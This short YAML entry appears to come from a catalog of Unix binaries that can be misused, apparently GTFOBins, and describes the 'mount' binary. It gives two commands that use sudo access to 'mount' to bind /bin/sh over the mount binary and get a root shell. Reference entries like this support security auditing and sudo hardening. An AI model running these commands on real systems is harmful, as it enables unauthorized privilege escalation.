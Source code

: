 ```yaml
---
functions:
  sudo-enabled:
    - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` binary with a shell.
      code: |
        sudo mount -o bind /bin/sh /bin/mount
        sudo mount
---
```

